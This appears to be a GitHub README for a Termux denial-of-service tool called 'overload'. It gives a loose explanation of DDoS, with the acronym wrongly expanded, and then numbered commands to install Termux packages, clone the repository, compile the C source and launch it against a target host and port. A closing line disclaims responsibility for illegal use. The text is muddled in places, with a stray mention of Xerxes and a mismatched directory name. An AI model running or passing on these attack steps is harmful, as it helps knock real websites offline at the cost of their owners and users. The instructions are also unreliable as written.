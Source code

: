# Termux-Dos-attacker-tool 
DoS Attack Using Termux

DDos Is A Cyberattack (Denial Distribution Of Service) With the help of Ddos Attack One Can Shutdown A whole Website(if successful), In ddos Attacker makes botnet and Send programmed request to target servers

What is the `overload` Tool? This Tool is an open source DDOS Attack Tool written in C programming Language.

Usually this attack can also be done using other linux based OS.

Site Crash with Termux? Since this process is done by Telephone, that is, via Termux, the Site does not collapse easily, but when this process is performed with more than 1 person, there may be a slowdown in the Site.

Since this is a minor attack, it does not affect Large sites (Google, Facebook, etc.) Termux Xerxes installation? Download Termux from Google Play…

# commands⬇️

 - `apt update`
 - `apt upgrade`
 - `pkg install git`
 - `pkg install clang`
 - `git clone https://github.com/abirhosenakram/Termux-Dos-attacker-tool`
 - `cd overload`
 - `clang overload.c -o overload`
 - `./overload www.example.com 80`

# ⚠we aren't responsible for any illegal activities 

